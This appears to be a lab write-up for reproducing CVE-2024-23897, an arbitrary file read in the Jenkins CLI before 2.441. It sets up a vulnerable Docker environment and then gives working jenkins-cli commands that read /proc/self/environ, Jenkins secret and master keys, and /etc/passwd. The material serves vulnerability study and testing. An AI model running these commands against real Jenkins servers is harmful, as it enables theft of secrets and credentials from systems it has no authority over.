




Jenkins Arbitrary File Read Through the CLI (CVE-2024-23897)¶
Jenkins is an open source automation server.
Jenkins uses the args4j library to parse command arguments and options on the Jenkins controller when processing CLI commands. This command parser has a feature that replaces an @ character followed by a file path in an argument with the file’s contents (expandAtFiles), which leads attackers to read arbitrary files from Jenkins server.
This vulnerability affects Jenkins prior to 2.441.
References:
- https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314
- https://mp.weixin.qq.com/s/2a4NXRkrXBDhcL9gZ3XQyw
Vulnerable Environment¶
Execute following command to start a Jenkins server 2.441:
docker compose up -d
You can access the Jenkins server through http://your-ip:8080/ after the server is started. Default administrator's username and password are admin and vulhub.
Exploit¶
First, you should download the command-line client jenkins-cli.jar by http://localhost:8080/jnlpJars/jenkins-cli.jar.
Read the file /proc/self/environ to get the Jenkins base directory, JENKINS_HOME=/var/jenkins_home:
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/proc/self/environ"

Then, you can use it to retrieve sensitive files such as secrets.key or master.key (anonymously, only the first line of the file can be read via an error on the command line):
java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secret.key"

java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/var/jenkins_home/secrets/master.key"

Because the "Allow anonymous read access" is turned on, you can also read the full content of a file:
java -jar jenkins-cli.jar -s http://localhost:8080/ -http connect-node "@/etc/passwd"
